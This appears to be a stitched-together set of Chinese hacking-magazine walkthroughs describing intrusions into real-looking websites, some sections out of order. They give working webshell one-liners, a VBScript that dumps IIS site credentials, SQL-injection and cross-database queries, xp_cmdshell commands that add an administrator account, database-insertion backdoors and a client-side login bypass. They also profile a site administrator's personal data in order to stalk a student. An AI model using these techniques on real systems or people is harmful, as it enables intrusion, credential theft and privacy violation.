随便给要添加的新闻起个标题，点“提交”按钮完成添加新闻，然后查看新添加的新闻；在显示新闻图片的那个红叉处右键，选择属性，就看到了文件传上去后的访问地址 http://www.zxxx8.com/admin/news/Files/upfile/20110921132952.asp，直接用浏览器打开 http://www.zxxx8.com/admin/news/Files/upfile/20110921132952.asp，没有提示文件未找到，看来文件确实传上去了。用 lake2 的 eval 最小马发送端连接 http://www.zxxx8.com/admin/news/Files/upfile/20110921132952.asp，成功获得 webshell，如图6。


http://www.zxxx8.com/ 的后台登录地址为 http://www.zxxx8.com/login.htm，用猜到的管理员用户名和密码顺利进入了后台。在后台点“新闻管理”下的“最新消息”，然后点“添加新闻”来到了添加新闻数据的地方，在这里可以上传新闻图片，把 ASP 一句话木马的服务端代码保存为 asp。

利用一句话木马得到网站的根目录为 D:\hosting\wwwroot\zxxx8_com\htdocs\，猜测目标网站的根目录为 D:\hosting\wwwroot\dxxxr_com_cn\htdocs\。用一句话木马的“File List”功能尝试列 D:\hosting\wwwroot\dxxxr_com_cn\htdocs\ 目录下的文件夹和文件，出错了，提示“路径未…”。“找不到”，看来可能是目标网站的根目录猜错了，也可能是权限不够。

经过测试，网站不支持 aspx 文件。


图7

本来想通过一句话木马上传个功能更强大的大马，方便提权等，但通过一句话木马的列文件和目录功能发现了异常。在 `D:\hosting\wwwroot\zxxx8_com\htdocs\admin\news\Files\upfile\` 目录下，也就是网站上传图片的目录下，发现了两个可疑文件 `2.asp` 和 `2.php`，如图7。先来看看 `2.asp` 是什么东西。用浏览器打开 `http://www.zxxx8.com/admin/news/Files/upfile/2.asp`，发现是别人的一个 ASP 大马，如图8。看来这个网站以前被别人拿到过 webshell 了。


图8

既然已经有别人的 ASP 大马了，我就不再上传，直接用别人的了。试了几个简单的密码都不对，不猜了，用一句话木马下载了 `2.asp`，得到密码 `13141234567`，然后登录进了大马，如图9。看着权限还比较多。


图9

## 三、“跨站”获得目标网站 webshell

在获得了目标网站同服务器上其它网站的 webshell 后，怎样才能获得目标网站的 webshell？

一开始想到的是利用当前 webshell 提权，如果能提权成功获得管理员权限或系统权限，自然也就有了同台服务器上目标网站的权限。

用大马简单看了下，服务器权限设置得比较严，磁盘根目录无权限访问，`C:\Documents and Settings\All Users\桌面` 等目录也无权限访问。比较值得安慰的是 `wscript.shell` 组件没有删除，可以执行一些 cmd 命令。点大马中的“CMD命令行”来到了执行 cmd 命令的地方，用服务器上 `c:\windows\system32\cmd.exe` 尝试执行 `ver` 命令，提示“没有权限”。上传一个 `cmd.exe` 到网站根目录 `D:\hosting\wwwroot\zxxx8_com\htdocs\` 下，然后把 `cmd.exe` 的路径改成 `D:\hosting\wwwroot\zxxx8_com\htdocs\cmd.exe`，再执行命令 `ver`，这次可以执行了，如图10。


图10

但接着发现很多命令不能执行，比如 `net user`、`netstat -an` 等命令都不能执行。`systeminfo` 命令可以执行，通过这个命令知道服务器补丁打得很勤，用溢出程序提权成功的可能性小了很多。但抱着不死心和盼望出现奇迹的心态，上传了几个常用提权用的溢出程序去执行，都没有成功。服务器上好像也没装提权大户的第三方软件，提权没法提。通过 ASP 大马的查看用户账户功能，发现服务器上有很多类似名为 `IUSER_00000`、`IUSER_00001`、`IUSER_00002` 的用户，看来管理员为服务器上的每一个网站设置了单独的用户。即使知道了目标网站根目录的位置，因为权限问题也跨不过去。一时卡到这里了。

以前遇到这种情况我就放弃了，如果今天我也到这里就放弃，就没有写这篇文章的必要了。既然写这篇文章，我就还有别的方法可用。

前一段时间在网上看了一篇文章，写的就是在遇到我上面情况时的突破方法，文章的题目叫“webshell下可以命令时跨站最好办法”，有兴趣的可以去  
`http://hi.baidu.com/artcracker/blog/item/0a5f231f431b3905403417dd.html` 看下。文中说在已经获得了一个网站的 webshell 并且可以执行 cmd 命令的情况下，如果 Web 服务器软件是 IIS，可以通过执行 VBS 脚本文件获得服务器上所有网站对应的 IIS 用户名和密码，进而跨到服务器上的任何网站上获得 webshell。目标网站所在服务器的操作系统是 Windows 2003，Web 服务器软件是 IIS 6.0，并且已经获得了一个可以执行 cmd 命令的 webshell，正好满足文中跨站的条件。

> “webshell下可以命令时跨站最好办法”一文中，获得网站对应的 IIS 用户名和密码用到了 `adsutil.vbs`，并且要执行 3 次命令后才能获得 IIS 的用户名和密码。我在网上找到了另外一段 VBS 代码，相对 `adsutil.vbs` 来说代码要少得多，而且执行一次就可以获得网站对应的 IIS 用户名和密码。具体代码为：

```vbscript
Set ObjService=GetObject("IIS://LocalHost/W3SVC")
For Each obj3w In objService
  childObjectName=Replace(obj3w.AdsPath,Left(obj3w.Adspath,22),"")
  if IsNumeric(childObjectName)=true then
    set IIS=objservice.GetObject("IIsWebServer",childObjectName)
    if err.number<>0 then
      exit for
      msgbox("error!")
      wscript.quit
    end if
    serverBindings=IIS.serverBindings
    ServerComment=IIS.servercomment
    set IISweb=IIS.getObject("IIsWebVirtualDir","Root")
    user=IISweb.AnonymousUserName
    pass=IISweb.AnonymousUserPass
    path=IISweb.Path
  end if
Next
wscript.echo list
Set ObjService=Nothing
Wscript Quit
```

把代码保存为 `iis.vbs`。通过 webshell 把 `iis.vbs` 上传到服务器上的 `D:\hosting\wwwroot\zxxx8_com\htdocs\` 目录下，上传上去保存为 `l.vbs`，然后执行命令 `cscript D:\hosting\wwwroot\zxxx8_com\htdocs\l.vbs`。命令执行后列出了服务器上所有的网站对应的 IIS 用户名和密码，还有网站的根目录，如图11。


通过执行 `l.vbs` 的结果知道，目标网站 `www.dxxxr.com.cn` 的网站根目录为一开始猜过的 `D:\hosting\wwwroot\dxxxr_com_cn\htdocs\`，对应的 IIS 用户名为 `IUSER_00017`，密码为 `&NDQ4MTIwMDcwMzI4MDk`。

知道了目标网站的 IIS 用户名和密码，也知道了目标网站的根目录，下面可以来跨站了。需要用到一个支持其它 NT 用户身份登录的 webshell，bloodsword 大牛的 DarkBlade 正好有这个功能。用记事本打开 DarkBlade 1.3，搜索 `Const bOtherUser=False`，这是控制是否支持其它 NT 用户身份登录的功能，默认为 `False`，也就是不支持，把 `False` 改为 `True`，保存，如图12。


把修改后的 DarkBlade 1.3 上传到网站根目录 `D:\hosting\wwwroot\zxxx8_com\htdocs\` 下，上传上去后的文件名为 `13.asp`，`13.asp` 的访问地址为：  
`http://www.zxxx8.com/13.asp?goaction=login`  
记得一定要在文件名后加 `?goaction=login`。用浏览器打开该地址，会出来如图13的页面，直接点“OK”按钮后会出来用户登录框，如图14。


输入目标网站的 IIS 用户名 `IUSER_00017` 和密码 `&NDQ4MTIwMDcwMzI4MDk`，点“确定”按钮登录成功的话，会出来如图15的 DarkBlade 1.3 登录界面。输入 DarkBlade 1.3 的密码后打开了它的文件管理页面，当前目录为当前网站的根目录 `D:\hosting\wwwroot\zxxx8_com\htdocs\`，如图16。

目标网站 `www.dxxxr.com.cn` 的网站根目录为 `D:\hosting\wwwroot\dxxxr_com_cn\htdocs\`。在 DarkBlade 1.3 的文件管理页面的 “Current Path” 输入框中输入目标网站根目录路径 `D:\hosting\wwwroot\dxxxr_com_cn\htdocs\`，然后点“Go”按钮，列出了目标网站根目录下的文件夹和文件，如图17。跨站成功！

至此，通过“跨站”获得了目标网站的 webshell。可以看到此“跨站”是利用这个网站的 webshell 跨到同服务器的别的网站目录下，获得权限，进而获得别的网站的 webshell，而不是 XSS 的“彼跨站”。

在目标网站的根目录下发现了文件 `conn.asp`，以为有什么敏感信息，用 DarkBlade 点“Edit”按钮后查看 `conn.asp` 文件内容，文件内容为 `<%eval request("1")%>`，居然是一句话木马的服务端，看来自别人留的网站后门，如图18。有了这个一句话木马，俺就不用自己再上传 webshell 了。用 lake2 的 eval 最小马发送端连接 `http://www.dxxxr.com.cn/conn.asp`，成功获得目标网站的 webshell，如图19。


通常文章都是比较老套的方法，高手和大牛莫笑。

### 一波三折

——对本地安全公司的渗透测试

话说小菜看了许久的 X 档案，早就想练练技术了，恰逢本地的安全公司在招人。听说某个同学因为入侵得到了服务器，进入了这个公司，于是我也起了这念头，想去试试，等到小菜成功拿到服务器了，再跟那公司说做兼职。可惜人家不要兼职。唉~读书不是我的错啊，读错时间了就是我的不是了。

不多说了，看看这个站（PS：起初我找这个网站找了好长时间，居然人才公司的广告都比本身的网站排名靠前，在百度翻了许久才翻出来，不容易啊，很低调）。打开后发现全是静态页面，当时心里凉了半截……不断地翻着，还是没有找到动态的，查看图片的路径也没有找到分毫关于各种编辑器的路径。`site:xxx.com.cn inurl:asp?` 得到的结果如图1：

下午还是暂时没有找到什么可以利用的，没有注册，没有上传……都闷死了。后来来看看对方开启了什么端口吧！在命令符里面使用 `telnet www.xxx.com.cn port` 来探测对方服务器开启的端口。分别使用 `telnet www.xxx.com.cn 21` 来探测是否开启 21 端口，`telnet www.xxx.com.cn 3389` 来探测是否开启 3389 端口，最后得到的结果是开启了 80（http）、1433（mssql）、3389（远程登录），如图4所示。


图1


图4

使用 `site:xxx.com.cn inurl:aspx?` 的时候得到的结果，如图2。


图2

看到这个情形心都凉了半截，这样的站怎么去拿呢？什么线索都没有，拿什么去入侵啊？然后在谷歌去搜索的时候发现结果完全不同，使用 `site:xxx.com.cn inurl:aspx?` 的时候得到的结果如图3所示：


图3

除了 php 的没有收录以外，其他的都是有收录的。想来那么多人喜欢谷歌还是有些道理的……仔细看了看还是没有什么明显可以利用的，盯着那个“SiteServer ASK 问答系统”，试试我在谷歌找找它的漏洞信息之类的，但是找了很久都没有关于它的漏洞信息，于是后来不得不放弃。

最后仔细想想自己收集的信息：

- 系统是 Windows 2003 + MSSQL
- 开放的端口：3389、1433、80
- Web 结构：asp.net + mssql
- 包括了一个主站，还有一个 webmail，采用的结构是 asp
- 网站总的感觉是个 CMS 整站系统，但是不怎么确定

后来思考了下，想起了出名的“谷歌黑客”，想起那些经典的各种语句，于是自己随便构造语句去搞了。开始是用 `"mdb" site:xxx.com.cn` 在谷歌去弄，想去搜索点数据库吧。没想到居然真的会找到，如图5。


图5

看见这个结果心里一喜，终于让我抓住了，于是直接下载。可是悲哀的是没有一个可以下载回来，就是在那里当成摆设而已，完全是鸡肋嘛。郁闷，如图6。


图6

找了会儿发现自己居然连后台都没有找到，于是就采用 `"login" site:xxx.com.cn` 来试试是不是可以找到登录点，于是在谷歌继续 `login" site:xxx.com.cn`，发现数据还比较多，如图7。

呵呵，看见了这个，应该是可以列目录啊，看来自己可是有戏了。于是一个一个地慢慢看，慢慢找……慢慢看啊，一个一个地搞了近乎一个小时，想起了前辈的话语：搞站就是运气和技术外加体力的结合体。看来这个真没有假话……这个小时过得实在龟惨啊！终于在经历了56分钟的时候，我终于看见了有注册，还有登录的。看来这是有效的，如图8。


图7


图8


图9

于是赶紧打开页面准备去注册，打开后看见好熟悉的页面，如图9。

在网上找了许久发现其实是 SiteServer CMS，然后再找了找关于它的漏洞利用方式：

漏洞描述：SiteServer CMS 网站内容管理系统是基于微软 .NET 平台开发的网站内容管理系统，它集成了内容发布管理、多站点管理、定时内容采集、定时生成、多服务器发布、搜索引擎优化、流量统计等多项强大功能，独创的 STL 模板语言，通过 Dreamweaver 可视化插件能够任意编辑页面显示样式，生成纯静态页。

漏洞分析：由于附件上传未对文件名进行过滤和自动重命名，导致 `1.asp;jpg` 畸形文件上传。小菜可以找到的利用 IIS 6.0 可执行代码漏洞取网站 shell 的两种方法：

#### 第一种方法

漏洞利用：

首先进入 `http://www.xxx.com.cn/usercenter/register.aspx` 注册用户，然后 `http://www.xxx.com.cn/usercenter/login.aspx` 登录后台。进入管理中心，选择附件上传 `shell.asp;jpg` 或者 `shell.asp;.jpg`，通过浏览可获取 shell 地址。就是在用户中心里的文档附件管理功能里，我们可以上传木马，得用 IIS 0day 获取 shell（PS：起初没有找到这个方法，后来补丁被打上以后上传不去了，于是找了这招），如图10。


图10

#### 第二种方法

漏洞利用：

首先进入 `http://www.xxx.com.cn/usercenter/register.aspx` 注册用户，然后 `http://www.xxx.com.cn/usercenter/login.aspx` 登录后台。进入管理中心，发布信息，选择标题图片或者附件上传即可。有时候我们直接把木马修改成图片格式会提示上传禁止。其实是上传成功了，点“选择”就可以找到。如果看不到发布文章，直接访问 `http://www.xxx.com.cn/usercenter/siteserver/contentAdd.aspx` 就可以了。

于是直接注册了 `sa.sap` 的用户，提示成功了，但是没跳转。于是直接输入 `http://www.xxx.com.cn/usercenter/login.aspx`，输入注册的账号和密码就进去了。在管理中心那里，编辑文章处直接上传个人图片一句话小马。然后使用菜刀去连接，发现完全是可以的，说明个人的记性还是不错的。于是准备丢个 ASP 大马进去，发现失败，各个目录都失败，如图11。


图11

```html
<C></C>
```

右键数据库管理后打开，然后查看个人权限，输入：

```sql
exec xp_cmdshell 'whoami'
```

呵呵，返回的是 system 权限。然后就是直接使用下面的命令来添加账号和密码：

```sql
exec xp_cmdshell 'net user saline ****** /add'
```

再加入管理组：

```sql
exec xp_cmdshell 'net localgroup administrators saline /add'
```

然后连接之：听说登录后果断占领桌面的才是完整的入侵。还是占领一个吧，如图14。

然后在里面操作，发现完全没有写入权限，试了许久，包括上传截图那里都是不可以的（PS：后来和管理员联系的时候，据管理员说设置了网站目录完全不可写，BT 的管理，真的是搞安全的，安全意识真强）。说这个郁闷啊，然后不小心翻到了 EMAIL 那个站，这里权限还是可以读写的，果断查看 `web.config`，不小心找到了我们可爱的 SA，然后直接在菜刀里面去设置好，如图12、图13。


图12


图13

```html
<T>ADO</T>
<C>Driver={Sql Server};Server=127.0.0.1,1433;Database=xxx;Uid=sa;Pwd=xxxxx0851</C>
<T>ADO</T>
```


图14

此次入侵完整结束，后来和管理员说了下，删除了自己的 shell 以及各个账号。

- 对于目标网站，要有整体思想，不能局限于一个点或者一个站。要善于使用各个条件。话说入侵就如同破案，需要各个线索自己去搜索。
- 要多思考，不仅要把自己当成入侵者，也可以把自己定位为一个管理员：如果我是一个网管我会怎么做。
- 一些数据库语句很有用，可以小小深入研究一下。当你有 SA 权限的时候真的可以发挥大作用。
- 不要迷恋什么提权神器，一些基础的常见第三方或者系统漏洞要多去了解，毕竟神器不常有，补丁杀软天天有。
- 国内的网站服务器安全也需要提高，像这种 MSSQL 早就应该降权了，Apache 什么的也是一样。不然到了像本文最后一步，根本就是一路通畅。

## 跨库查询+sim文件助我拿下某站shell

前一段时间帮朋友检测了一个经过检测授权的网站，虽然最终只拿到了网站同服务器上另外一个网站的shell，但拿这个shell的过程比较“艰辛”，发出来和大家分享一下。本人菜鸟一个，高手莫笑。

目标网站为 www.s***j.cn，网站用的是 ASP 程序。经过前期的信息收集知道网站的后台登录地址为：http://www.s***j.cn/admin/admin_index.asp，并且存在用户名 admin、密码 admin 的弱口令。进入后台首先注意到了后台页面左边“备份”，有数据库备份的地方，shell这么容易就到手了？点下“备份”菜单才知没那么幸运，没有出来备份数据库的页面，显示了空白，如图1。

继续找别的网站是否存在低级漏洞。在网站 www.b***s.com 的 http://www.b***s.com/cp_Show.asp?PID=229 页面发现了注入漏洞，通过注入漏洞得到管理员的用户名为 admin，密码为 731102。后台登录页面为 http://www.b***s.com/admin/Login.htm，用得到的用户名和密码进入了后台，如图2。

在后台首页显示了站点物理路径：D:\vhostroot\LocalUser\b***s\www\ 和数据库地址：admin\db\da#%#ta.mdb。站点物理路径说不定对我有用，利用它说不定可以推测出别的网站的站点物理路径，记录下来。这个网站的后台功能太简单，没找到获得shell的方法。


图1


图2

点“恢复”菜单显示的也是空白页。看来通过数据库备份获得shell的方法行不通了。后台的文件被人修改过了。点“上传文件管理”显示的是空白页，点“服务器情况”直接是无法找到该页，看来文件被删除了。

在后台添加新闻的地方发现目标站用的是 ewebeditor 编辑器，访问地址为 http://www.s***j.cn/edit/，但不存在后台登录文件 admin_login.asp，也不存在数据库文件 ewebeditor.mdb，连 db 目录都没有。当然，也不存在 admin_style.asp，对我来说利用 ewebeditor 编辑器获得shell的方法也行不通了。

#### 一、被迫旁注

目标站一时无法突破，被迫来看下旁注。在 http://www.yougetsignal.com/tools/web-sites-on-web-server/ 查询了一下，目标网站所在服务器上竟然有190多个网站。看到这个结果我是既高兴又担心。高兴的是服务器上有这么多网站，难免有几个存在低级安全漏洞的，拿到一个shell的可能性很大；担心的是有这么多网站的服务器安全性不会太差，即使拿到一个网站的shell，如果要想提权成功，一般对我这等没有什么0day的菜鸟来说也会很难。

继续找别的网站。在网站 y***a.com 的 http://y***a.com/products_viwe.asp?id=8 页面又发现了注入漏洞。通过注入漏洞获得管理员的用户名为 y***a，密码为 y***a2007。后台登录页面为：http://y***a.com/manage/login.asp，用得到的用户名和密码进入了后台，如图3。


图3

遗憾的是在后台也没发现拿shell的方法，不过在后台产品信息添加的地方发现网站用到了 ewebeditor 编辑器，说不定还有点希望拿到shell。ewebeditor 编辑器的地址为：http://y***a.com/editor/，经过访问尝试，发现在后台登录页面 http://y***a.com/editor/admin_login.asp，但试了几个弱口令，都不对。看看是不是存在 db 目录，访问 http://y***a.com/editor/db/，提示“Directory Listing Denied”，看来存在 db 目录，再看存不存在默认数据库文件 ewebeditor.mdb，继续访问 http://y***a.com/editor/db/ewebeditor.mdb，提示“该页无法显示。您试图从目录中执行 CGI、ISAPI 或其他可执行程序，但该目录不允许执行程序。”，看来存在 ewebeditor.mdb 这个文件；但服务器配置不允许下载 .mdb 格式的文件。ewebeditor 的数据库文件不能下载，不能从下载回来的数据库文件中获得 ewebeditor 的管理员用户名和密码，就不能登录 ewebeditor 的后台拿shell了。

### 二、跨库查询获得ewebeditor管理员用户名和密码

要获得 ewebeditor 的管理员用户名和密码，除了下载数据库文件没别的方法了？我现在有一个网站的注入点，考虑用跨库查询。跨库查询需要知道要查询数据库文件在磁盘上的绝对位置，上面已经知道网站 www.b***s.com 对应的网站绝对路径为：D:\vhostroot\LocalUser\b***s\www\，因此大胆猜测当前网站 y***a.com 对应的网站绝对路径为：D:\vhostroot\LocalUser\y***a\www\。

注入点为：http://y***a.com/products_viwe.asp?id=8，通过 order by 语句知道当前表共有12个字段；构造地址：http://y***a.com/products_viwe.asp?id=8 union select 1,username,3,4,password,6,7,8,9,10,11,12 from admin，成功爆出了网站管理员的用户名和密码（注意是网站管理员的用户名和密码，不是 ewebeditor 的管理员用户名和密码），注入点支持 union 查询，如图4。


图4

猜测 ewebeditor.mdb 在服务器上的绝对路径为：D:\vhostroot\LocalUser\y***a\www\editor\db\ewebeditor.mdb，在 ewebeditor.mdb 数据库中存放管理员用户信息的表为 eWebEditor_System，用户名对应的列名为 sys_UserName，密码对应的列名为 sys_UserPass，因此构造如下跨库查询语句：

http://y***a.com/products_viwe.asp?id=8 union select 1,sys_UserName,3,4,sys_UserPass,6,7,8,9,10,11,12 from eWebEditor_System in "D:\vhostroot\LocalUser\y***a\www\editor\db\ewebeditor.mdb"

用浏览器打开后的结果如图5，成功爆出了 ewebeditor 的后台管理员用户名 0a83573dc090a8be 和密码 5e687528bfa6edb4。说明我猜测的网站绝对路径是正确的。用户名和密码都是经过 MD5 加密的，在在线破解网站破解出用户名为 info-ne，密码为 Infone2005。


图5


图6


图7

### 三、ewebeditor后台拿shell受挫

得到 ewebeditor 的管理员用户名和密码，赶紧登录进了后台，如图6。在样式管理中拷贝了一个样式，然后点“设置”按钮，在允许上传的图片类型中添加 asa 格式，预览这个样式，上传扩展名改为 .asa 的 ASP 一句话木马，传了上去，点“代码”按钮知道上传后的文件为 /editor/UploadFile/20119231381751.asa，如图7。用 lanke2 的 eval 最小马发送链接 http://y***a.com/editor/UploadFile/20119231381751.asa，却提示“无法找到该页”，如图8。文件不存在，难道没传上去？用 ewebeditor 后台的上传文件管理功能，发现 20119231381751.asa 也不存在，看来是真没传上去，ASP 一句话代码被拦截了？在 asa 文件里只写入 123，上传，发现也上传不上去。换 .cer、.cdx 格式的传不上去，.jpg 格式的文件可以正常上传。


图8

又想了不少方法，但还是没拿到shell。

### 四、利用stm文件实现突破

有个 ewebeditor 的后台却获得不了shell。这种情况持续了几天，比较郁闷。几天之后突然想到在网上看到过利用 stm 文件获得 ASP 文件源代码的方法。在 ewebeditor 的后台试了下，能上传 stm 格式的文件。来读一些文件的源代码，说不定能获得有用的东西。首先来读取数据库连接文件，已经知道网站用的是 Access 数据库，通过读取数据库连接文件可以获得数据库文件的名字以及所在的目录。大多数 ASP 程序的数据库连接文件为 conn.asp，有的在网站根目录下，也有的在 inc 等目录下。访问 http://y***a.com/conn.asp，显示了空白页，没有提示无法找到该页，说明确实存在 conn.asp 这个文件，而且在网站根目录下。就采用 stm 文件读取 conn.asp 的源代码。

因为网站的根目录为 D:\vhostroot\LocalUser\y***a\www\，而通过 ewebeditor 上传上去的 stm 文件保存在 D:\vhostroot\LocalUser\y***a\www\editor\UploadFile\ 目录下，也就是要读取源代码的文件 conn.asp 相对于传上去的 stm 文件在它的上两级目录下，因此 stm 文件的代码为：

```html
<!--#include file="../../conn.asp"-->
```

把上面代码保存为文件 stm.stm。在 ewebeditor 后台复制的样式里允许上传文件的格式里添加 stm 格式，预览样式，把 stm.stm 传上去，传上去后的文件为 /editor/UploadFile/2011923185647108.stm，用浏览器打开 http://y***a.com/editor/UploadFile/2011923185647108.stm，页面一片空白，哪里有 conn.asp 的源代码啊。别急，在页面上右键，然后选择“查看源文件”，conn.asp 的源代码就可以看到了，如图9。


图9

conn.asp 的源代码为：


通过源代码知道网站的数据库文件在网站根目录下的 y***a 文件夹下，文件名为 #y***a.asp，用浏览器访问 http://y***a.com/y***a/%23y***a.asp，显示了如图10的内容。


图10

根据经验，这种数据库是可以用迅雷下载的，并且可以数据库插马。需要找一个能往数据库中插入数据的地方，发现网站有个在线咨询的地方，可以向数据库文件中添加内容，就用它了。在线咨询的地址为 http://y***a.com/online.asp。在“Company Name”处输入 123<%eval request('x')%>，其它地方随便写，如图11，然后点“Submit”按钮提交。用 lanke2 的 eval 最小马发送端连接 http://y***a.com/y***a/%23y***a.asp，获得了shell，如图12。


获得了一个一句话的shell，为了方便提权，最好弄一个 ASP 大马上去。一开始编辑一个已有的 asp 文件，想把大马的代码编辑进去，但在保存的时候却提示“信息监控拦截系统提醒您：很抱歉，由于您提交的内容中或访问的内容中含有系统不允许的关键词或者您的IP受到了访问限制，本次操作无效，系统已记录您的IP及您提交的所有数据。请注意，不要提交任何违反国家规定的内容！本次拦截的相关信息为：declare</a></div></body></html>”，大马的某些关键字被一流信息监控拦截系统拦截了，编辑不成功。一时也不知道都拦截了哪些关键字，也不好找没有被拦截关键字的大马。又卡住了。

### 五、艰难的上传大马之旅

虽然获得了shell，但这个shell是插在网站数据库文件中的，用着有些不方便，万一把人家数据库文件弄坏了就不好了，所以想另外上传个shell到网站目录下。本来以为用一句话木马写个shell到网站目录下就行了，但写入文件失败，又换了几个文件上传，发现只要试图写入 asp、asa、cer、cdx 文件都是写入文件失败，php 文件能顺利写入，但网站不支持 php 文件。试图复制 asp 文件，不行；利用 XMLHTTP 下载文件到服务器上，也失败了。看来服务器上可能装了什么软件，对 asp、asa、cer、cdx 文件进行了过滤。exe、com 格式的文件也不能写入。jpg 文件可以写入。不能上传新的 asp 文件，那么能不能编辑已有的 asp 文件呢？用 lanke2 的 eval 最小马编辑网站目录下已有的一个 asp 文件，在保存修改的时候却出错了，提示“HTTP 错误 405 - 用于访问该页的 HTTP 动作未被许可。”

无意中把刚才拦截的 asp 大马改名为 x.jpg，用菜刀尝试上传到网站根目录下，竟然成功了，如图14。看来一流信息监控拦截系统对 jpg 文件的内容不检查。大马传上去了，但却是 jpg 格式的文件，怎样让大马运行起来呢？这时候想到了文件包含。因为 x.jpg 在网站根目录下，在网站根目录下找到了 down.asp，用菜刀编辑它，在文件最前面加入代码 <!--#include file="x.jpg"-->，然后访问 http://y***a.com/down.asp，大马的登录界面出来了，如图15。登录后发现大马功能正常，至此大马到手。

换菜刀连接 http://y***a.com/y***a/%23y***a.asp，这次可以编辑文件了。在网站的 Editor 目录下的 PopUp.asp 的末尾插入 <%eval request("x")%>，又获得了一个shell，如图13。进入后把插入了 ASP 一句话代码的在线咨询删除，数据库文件恢复原样。用大马尝试提权，发现服务器权限设置得很 bt，不能执行 cmd 命令，不能上传 exe 文件，除了网站目录外别的目录几乎都没有权限访问。提权失败。


图15

这次检测也就结束了，遗憾的是没有获得目标网站的shell，只获得了目标网站所在服务器上其它网站的一个shell，而且这个shell还拿得比较艰辛。

本人菜鸟一个，在这种情况下有好的突破方法的朋友欢迎指点。

## 实战突破ASP过滤系统：使用万能密码入侵网站

阿基米德

小菜我今天无聊，突发奇想地想写个文章跟大家混个脸熟，于是便有了此文。此文只说个思路罢了，因为还有其他的 ASP 程序后台也有过滤，只要我们知己知彼，百战不殆，掌握了一种方法，其他的过滤系统只要你认真研究一下的话，神马都会变成浮云。至于万能密码这个牛逼的漏洞我就不多做解释了，稍微混过圈子的人都知晓。本文主要讲解如何绕过字符过滤。

话说万能密码已经在网络上灭绝了，但是如果有耐心的话还是能找到这样的网店后台的。如图1所示就是万能密码适用的后台。然而如何才能找到类似这样的后台呢？大家可以利用挖掘机，在关键词上填上“inurl:went.asp”，线程最好设置成25，过上几分钟便会有一大堆形如图1之类的后台地址蹦出来。挖掘机得出的结果如图2所示。


图1


图2

找了很久终于找到了一个网站具备今天所讲例子的条件，具备了万能密码的漏洞，而且具备了过滤系统，目标站是 www.chong*******.com，网站看起来还挺不错嘛，是个 flash 首页。网站首页如图3所示。


图3

这个网站的后台地址是 http://www.chong*******.com/manage/login.asp，我输入了 'or'='or' 后，结果蹦出个如图4的东西，我心中大喜。看我今天怎么把你给灭掉。接下来就是实战操作了。在后台页面空白处右击查看源文件的选项，然后再将打开的 txt 保存为 login.html。如图5、图6所示。


图4


图5


图6

```javascript
document.UserLogin.Name.focus();
document.UserLogin.Name.select();
return false;
}
if (document.UserLogin.Pwd.value=="") {
  alert("请填写您的密码！");
  document.UserLogin.Pwd.focus();
  return false;
}
var filter=/^\s*[A-Za-z0-9_]{5,15}\s*$/;
if (!filter.test(document.UserLogin.Pwd.value)) {
  alert("密码填写不正确，请重新填写！可使用的字符为(A-Z a-z 0-9 _ )，长度不少于5个字符，不超过15个字符，并且不要使用空格。");
  document.UserLogin.Pwd.focus();
  document.UserLogin.Pwd.select();
  return false;
}
loginForm.submit();
return true;
```

好了，现在进行下一步。我们只需要认真分析代码，找到过滤系统的根源。用记事本打开刚才保存的代码，在代码中我们不难发现这样一行：`alert("用户名填写不正确...")`。这一行代码存在于 `<SCRIPT language=JavaScript>` 和 `</SCRIPT>` 这两个标签之间。

我们只要把刚刚贴上的代码全部删掉就行了。删除之后保存，直接打开 html 文件输入万能密码，然后点击登录。接着再回到代码查看，还会发现与 `login` 表单相关的一行代码，代码如下所示：

```html
<SCRIPT language=JavaScript>
<!--
function CheckForm(){
  if (document.UserLogin.Name.value=="") {
    alert("请填写您的用户名！");
    document.UserLogin.Name.focus();
    return false;
  }
  var filter=/^\s*[A-Za-z0-9_]{5,15}\s*$/;
  if (!filter.test(document.UserLogin.Name.value)) {
    alert("用户名填写不正确，请重新填写！可使用的字符为(A-Z a-z 0-9 _ )，长度不少于5个字符，不超过15个字符，并且不要使用空格。");
  }
}
```

```html
<body>
<FORM ACTION="login.asp?no=eshop" METHOD="post" name="UserLogin" onSubmit="return CheckForm();">
<br>
```


图7

## 一个人的战争


“Login.asp？”这个其实就是罪恶之源，因为目标网站后台源码地址连接的是他本地构建的 FTP 目录，所以它前面是没有目录的。简单点说，如果我们的电脑有网站全套完整的源程序，打开之后是不会出现“无法显示网页”这样的情况的。也就是说，只要在 login.asp 前面加上目标网站的地址就大功告成了。修改后的代码如下所示：

```html
<body>
<FORM ACTION="http://www.chong********.com/manage/login.asp?nore=shop" METHOD="post" name="UserLogin" onSubmit="return CheckForm()">
<br>
```

于是我们再打开，输入万能密码后，哇塞，亲切的后台回到了我们的怀抱。后台如图9所示。之后我随便翻了下后台，有很多可以上传的地方，我就不多做解释了。经过这次解说，相信大家对过滤系统的原理已经明白大半了。过滤系统看起来好像是我们入侵的障碍，其实过滤系统只不过是一个纸老虎罢了。你只要认真分析源码，不要放弃，勇于挑战，那么 webshell 最终都是属于你的。

本文到这里也就结束了，本文的技术仅供学习与参考，切勿用于非法用途。工具我就不打包了，挖掘机嘛，小菜们都有的，你懂的。

### 众里寻她千百度之一——孙喵愁引发的FreeBSD连接主机提权

在一次全校的公选课上，鄙人正在百无聊赖地四处张望，突然发现前方不远的地方坐着一个漂亮 MM，正是我非常喜欢的那种类型。我心里就盘算着怎么能和她认识一下。可是一看时间，马上就要下课了，刚好这个时候老师开始点名，我就开始留神想要记住 MM 的芳名。当老师念到“杨*妍”的时候，那个 MM 答了声到，就这样我知道了 MM 的大名。

直接上去搭讪未免也太过唐突，搞不好还容易引起 MM 的反感，还是采取迂回的战术比较好一些。我们学校有一个论坛，规模还是比较大的，学校里面的学生基本都在上面注册了。最重要的一点是这个论坛采取实名制管理的，只要能够拿到论坛的数据库，我不就能够轻而易举地拿到 MM 的信息了吗？想到这，我得意地笑了……

打开我们学校的论坛 www.u***n.com，在页尾发现了“Powered by Discuz! X2”。这套系统因为关注的人非常多，所以就算有什么漏洞估计早就补上了，所以先不考虑从论坛的漏洞入手。

首先想到如果能够利用社会工程学拿到管理员的密码，应该是个很不错的选择，既省时又省力。于是我查了一下 u***n.com 这个域名的 whois 信息，结果如图1所示。


可以看到他用的是 QQ 邮箱，在他的 QQ 空间查看“个人档案”之后得到他的生日：1988-06-26；进入他的留言板，查看他回复别人的留言，得到他的手机号为：135*****871；最后通过上面这些得到的所有信息，用“Google Hack”又查到了很多他的私人信息，整理后结果如图2所示。


说句题外话：通过小小的一个域名就能挖掘出这么多的私人信息，大家一定要注意保护好自己的私人信息啊！

言归正传，我用他的名字、手机号、生日等信息组合猜解他的密码都没有成功，看来只能换一条思路了。

